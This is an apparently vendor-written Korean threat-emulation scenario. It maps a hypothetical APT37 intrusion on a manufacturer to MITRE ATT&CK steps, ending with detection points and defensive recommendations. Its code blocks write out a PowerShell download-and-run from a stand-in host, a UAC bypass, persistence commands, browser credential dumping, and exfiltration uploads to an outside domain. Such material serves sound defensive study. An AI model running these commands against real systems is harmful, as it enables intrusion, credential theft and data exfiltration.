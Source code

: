# APT37(ScarCruft) — 가상의 Windows 침투 시나리오

## 가정 환경

* **대상**: 한국 소재 제조업 본사 네트워크 (Windows 10/11 클라이언트)
* **모니터링**: 기본 이벤트 로그 + Sysmon v13 구성
* **보안 설정**: UAC 기본값 유지 (EnableLUA = 1)
* **목표**: R\&D 설계 도면 탈취 후 내부 중요 PC 파괴

---

## 1️⃣ 초기 침투 (Initial Access / Execution)

| 순서  | TID                                   | 행위                          | 사용 명령·기술                |
| --- | ------------------------------------- | --------------------------- | ----------------------- |
| 1-1 | T1566.001 – Spear Phishing Attachment | 팀장에게 악성 한글(HWP) 문서 첨부 메일 발송 | 악성 HWP 파일 전송            |
| 1-2 | T1204.002 – User Execution            | 사용자가 문서 열람, 매크로 실행          | HWP 매크로 내 PowerShell 호출 |
| 1-3 | T1105 – Ingress Tool Transfer         | 최종 백도어(Dolphin) 다운로드 및 실행   | PowerShell IEX 다운로드     |

```powershell
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://cdn.evilsite.kr/dropper.ps1')"
```

---

## 2️⃣ 권한 상승·지속화 (Privilege Escalation / Persistence)

| 순서  | TID                                     | 행위                         | 사용 명령·기술                                       |
| --- | --------------------------------------- | -------------------------- | ---------------------------------------------- |
| 2-1 | T1548.002 – Bypass User Account Control | UAC 우회 (Akagi + fodhelper) | `.\Akagi64.exe 30 C:\Windows\System32\cmd.exe` |
| 2-2 | T1547.001 – Registry Run Keys           | Run 키 등록으로 사용자 로그인 시 자동 실행 |                                                |

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "%APPDATA%\update.exe"
```

| 2-3 | T1053.005 – Scheduled Task | SYSTEM 권한 확보 위한 예약 작업 생성 |

```cmd
schtasks /Create /RU SYSTEM /SC ONSTART /TN "SvcInit" /TR "%APPDATA%\update.exe"
```

---

## 3️⃣ 시스템·사용자 조사 (Discovery)

| 순서  | TID                                  | 행위                       | 사용 명령·기술      |
| --- | ------------------------------------ | ------------------------ | ------------- |
| 3-1 | T1082 – System Information Discovery | OS, 패치, 도메인 정보 수집        | `systeminfo`  |
| 3-2 | T1033 – System Owner/User Discovery  | 사용자 정보 및 권한 확인           | `whoami /all` |
| 3-3 | T1057 – Process Discovery            | 백신 및 보안 프로세스 확인          | `tasklist /v` |
| 3-4 | T1120 – Peripheral Device Discovery  | 외장 USB 탐지 (설계도 백업 여부 확인) |               |

```powershell
powershell -c "Get-PnpDevice -Class USB"
```

---

## 4️⃣ 자격 증명·데이터 수집 (Credential Access / Collection)

| 순서  | TID                                       | 행위              | 사용 명령·기술 |
| --- | ----------------------------------------- | --------------- | -------- |
| 4-1 | T1555.003 – Credentials from Web Browsers | Chrome 저장 암호 덤프 |          |

```powershell
powershell -ep bypass -c "(Get-ItemProperty -Path 'HKCU:\Software\Google\Chrome\...') > '%TEMP%\chrome_creds.txt'"
```

| 4-2 | T1005 – Data from Local System | CAD/PDF 도면 검색 및 ZIP 압축 |

```powershell
$dir="C:\Projects"; $zip="$env:TEMP\designs.zip"; Compress-Archive -Path $dir\*.pdf,$dir\*.dwg -DestinationPath $zip
```

| 4-3 | T1123 – Audio Capture | 회의 녹음 15초 |

```cmd
"%ProgramFiles%\AudioRecorder.exe" -out "%TEMP%\meeting.wav" -d 15
```

---

## 5️⃣ C2 통신·데이터 유출 (Command & Control / Exfiltration)

| 순서  | TID                               | 행위               | 사용 명령·기술 |
| --- | --------------------------------- | ---------------- | -------- |
| 5-1 | T1071.001 – Web Protocols (HTTPS) | CDN 기반 HTTPS 터널링 |          |

```cmd
bitsadmin /transfer myDownload /download /priority normal "https://cdn.dropzone.net/beacon" "%TEMP%\b.dat"
```

| 5-2 | T1105 – Ingress Tool Transfer | 설계도 압축본 업로드 |

```powershell
Invoke-RestMethod "https://cdn.dropzone.net/upload" -InFile "$env:TEMP\designs.zip"
```

---

## 6️⃣ 파괴 행위 (Impact)

| 순서  | TID                            | 행위                 | 사용 명령·기술 |
| --- | ------------------------------ | ------------------ | -------- |
| 6-1 | T1529 – System Shutdown/Reboot | 강제 재부팅 → 암호화 전환 시도 |          |

```cmd
shutdown /r /t 1 /f
```

| 6-2 | T1027 – Obfuscated Files or Information | 랜섬노트 실행 Base64 인젝션 |

```powershell
powershell -c "IEX ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('base64encodedransomscript==')))"
```

---

## 📌 탐지·수색 포인트 요약

| 단계     | Sysmon/Event ID           | 탐지 키워드                         |
| ------ | ------------------------- | ------------------------------ |
| 권한 상승  | Sysmon 1 (ProcessCreate)  | `Akagi64.exe`, `fodhelper.exe` |
| 시스템 조사 | Sysmon 1 / 4688           | `systeminfo`, `wmic`, `whoami` |
| 자격 탈취  | Event ID 4656             | `Chrome Login Data` 접근         |
| 외부 전송  | Sysmon 3 (NetworkConnect) | 외부 443 → SNI: `cdn-*`          |
| 시스템 파괴 | Event ID 1074             | `Shutdown Type: restart`       |

---

## 🔒 PLURA-XDR 대응 방법 요약 및 참고 자료

* 의심스러운 HWP/LNK 첨부 파일 차단 및 정밀 검사
* PowerShell IEX 및 Base64 인코딩 탐지 정책 강화
* Sysmon + PLURA-XDR 기반의 로그 상관 분석
* PLURA-EDR 통한 Akagi 실행·UAC 우회 패턴 탐지
* LNK 및 예약 작업 생성 탐지 정책 설정 필수

👉 [자세히](plura_waf_xdr_detection.md)

---

